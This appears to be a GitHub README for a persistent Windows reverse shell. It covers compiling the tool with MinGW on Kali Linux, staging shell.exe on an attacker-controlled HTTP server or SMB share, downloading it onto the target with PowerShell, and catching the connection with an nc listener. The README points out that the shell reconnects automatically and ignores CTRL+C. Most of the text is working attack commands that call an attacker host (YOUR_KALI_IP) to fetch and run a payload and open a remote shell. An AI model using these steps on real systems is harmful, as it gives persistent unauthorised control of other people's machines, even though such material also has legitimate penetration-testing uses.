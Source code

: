 # Windows Reverse Shell

This is a robust Windows reverse shell that maintains stability and reconnects if the connection drops.

## Prerequisites

To compile this reverse shell, you need `MinGW` installed. Install it based on your OS:

### **🔹 On Kali Linux:**
```sh
sudo apt update
sudo apt install mingw-w64 -y
```

### **🔹 On Windows:**
1. Download MinGW from [Mingw-w64](https://www.mingw-w64.org/downloads/)
2. Install it and add the `bin` folder to your system `PATH`

## Compilation

To compile the reverse shell on **Kali Linux**:
```sh
i686-w64-mingw32-gcc shell.c -o shell.exe -lws2_32
```
This generates `shell.exe`, a Windows-compatible executable.

## Transfer to Target Machine

Use one of these methods to transfer `shell.exe` to the target:

### **🔹 Python HTTP Server (Recommended)**
On **Kali Linux**, start a web server:
```sh
python3 -m http.server 8080
```
On the **Windows target**, download the file using PowerShell:
```powershell
Invoke-WebRequest -Uri "http://YOUR_KALI_IP:8080/shell.exe" -OutFile "shell.exe"
```

### **🔹 SMB (For Internal Networks)**
On **Kali Linux**, use Impacket’s SMB server:
```sh
impacket-smbserver share $(pwd) -smb2support
```
On the **Windows target**, download the file:
```powershell
copy \\YOUR_KALI_IP\share\shell.exe C:\Users\Public\shell.exe
```

## Execution on Target

Start a listener on **Kali Linux**:
```sh
rlwrap nc -lvnp 1337
```
Execute the reverse shell on **Windows**:
```sh
shell.exe YOUR_KALI_IP 1337
```

You should now receive a reverse shell with proper command history and stability.

## Notes
- If the shell disconnects, it will **automatically attempt to reconnect**.
- CTRL+C will **not** terminate the shell on Windows.
- Use `rlwrap` with `nc` for an interactive shell with history.

Happy hacking! 🎯

